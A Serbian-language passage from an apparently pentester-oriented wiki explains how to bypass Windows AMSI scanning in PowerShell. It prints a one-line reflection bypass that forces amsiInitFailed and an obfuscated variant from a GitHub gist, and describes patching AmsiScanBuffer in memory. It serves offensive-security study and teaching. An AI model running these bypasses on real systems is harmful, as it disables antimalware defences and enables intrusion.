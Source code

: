 * **AMSI Bypass**

Pošto se AMSI implementira učitavanjem DLL-a u proces powershella (takođe cscript.exe, wscript.exe, itd.), moguće je lako manipulisati njime čak i ako se pokreće kao neprivilegovani korisnik. Zbog ovog nedostatka u implementaciji AMSI, istraživači su pronašli više načina za izbegavanje skeniranja AMSI.

**Prisiljavanje greške**

Prisiljavanje inicijalizacije AMSI da ne uspe (amsiInitFailed) rezultovaće time da skeniranje neće biti pokrenuto za trenutni proces. Originalno je ovo otkrio [Matt Graeber](https://twitter.com/mattifestation) i Microsoft je razvio potpis kako bi sprečio širu upotrebu.

{% code overflow="wrap" %}
```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```
{% endcode %}

Sve što je bilo potrebno bilo je jedna linija powershell koda da bi AMSI bio neupotrebljiv za trenutni powershell proces. Naravno, ova linija je označena od strane AMSI-a, pa je potrebna neka modifikacija kako bi se koristila ova tehnika.

Evo modifikovanog AMSI bypass-a koji sam preuzeo sa ovog [Github Gist-a](https://gist.github.com/r00t-3xp10it/a0c6a368769eec3d3255d4814802b5db).

```powershell
Try{#Ams1 bypass technic nº 2
$Xdatabase = 'Utils';$Homedrive = 'si'
$ComponentDeviceId = "N`onP" + "ubl`ic" -join ''
$DiskMgr = 'Syst+@.MÂ£nÂ£g' + 'e@+nt.Auto@' + 'Â£tion.A' -join ''
$fdx = '@ms' + 'Â£InÂ£' + 'tF@Â£' + 'l+d' -Join '';Start-Sleep -Milliseconds 300
$CleanUp = $DiskMgr.Replace('@','m').Replace('Â£','a').Replace('+','e')
$Rawdata = $fdx.Replace('@','a').Replace('Â£','i').Replace('+','e')
$SDcleanup = [Ref].Assembly.GetType(('{0}m{1}{2}' -f $CleanUp,$Homedrive,$Xdatabase))
$Spotfix = $SDcleanup.GetField($Rawdata,"$ComponentDeviceId,Static")
$Spotfix.SetValue($null,$true)
}Catch{Throw $_}
```

**Memory Patching**

Ova tehnika je prvobitno otkrivena od strane [@RastaMouse](https://twitter.com/\_RastaMouse/) i uključuje pronalaženje adrese za funkciju "AmsiScanBuffer" u amsi.dll (odgovornu za skeniranje korisničkog unosa) i prepisivanje instrukcija za vraćanje koda za E\_INVALIDARG, na taj način, rezultat stvarnog skeniranja će biti 0, što se tumači kao čist rezultat.

{% hint style="info" %}
Molimo pročitajte [https://rastamouse.me/memory-patching-amsi-bypass/](https://rastamouse.me/memory-patching-amsi-bypass/) za detaljnije objašnjenje.
{% endhint %}

Postoje i mnoge druge tehnike koje se koriste za zaobilaženje AMSI sa powershellom, pogledajte [**ovu stranicu**](basic-powershell-for-pentesters/#amsi-bypass) i [ovaj repozitorijum](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell) da biste saznali više o njima.
